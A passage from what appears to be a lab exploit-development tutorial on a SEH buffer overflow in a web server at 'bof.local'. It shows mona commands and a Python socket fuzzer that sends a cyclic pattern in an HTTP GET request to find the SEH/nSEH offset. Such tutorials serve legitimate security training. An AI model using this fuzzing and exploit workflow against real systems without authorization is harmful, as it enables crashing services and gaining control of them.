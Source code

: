

As we have now analyzed the crash and found the *vulnerability* we can proceed to calculate the offset and work out how many `A's` it takes for us to over run the **SEH** and **nSEH** pointer. I will use **mona** for this with the below command to calculate a non-repeating string aka **cyclic pattern**.



```python
!mona pc 5000
```



I will now use my `fuzzer.py` script again and amend it to send my pattern instead `5000` `A's`



```python
#!/usr/bin/python
import socket
import sys
import string

buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6...."


payload = "GET %d" + str(buffer) + " HTTP/1.1\r\n"
payload += "Host: bof.local\r\n"
payload += "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.92 Safari/537.36\r\n"
payload += "Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8"


print "[*] Starting to Fuzz GET Variable with %s bytes" %len(payload)
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('bof.local',80))
print "[*] Connected to bof.local on Port 80"
s.send((payload))
s.close()
print "[*] Finished Fuzzing GET Variable with %s bytes" %len(payload)
```



Our application will now return to a crashed state and report a **Access Violation** but if we check **SEH Chain** and jump to the value of **SE Handler** on the stack we will notice that it is in fact overrun with our cycling pattern and not a long string of `A's`



```python
!mona findmsp
```

```
!mona po 3Ff4
```
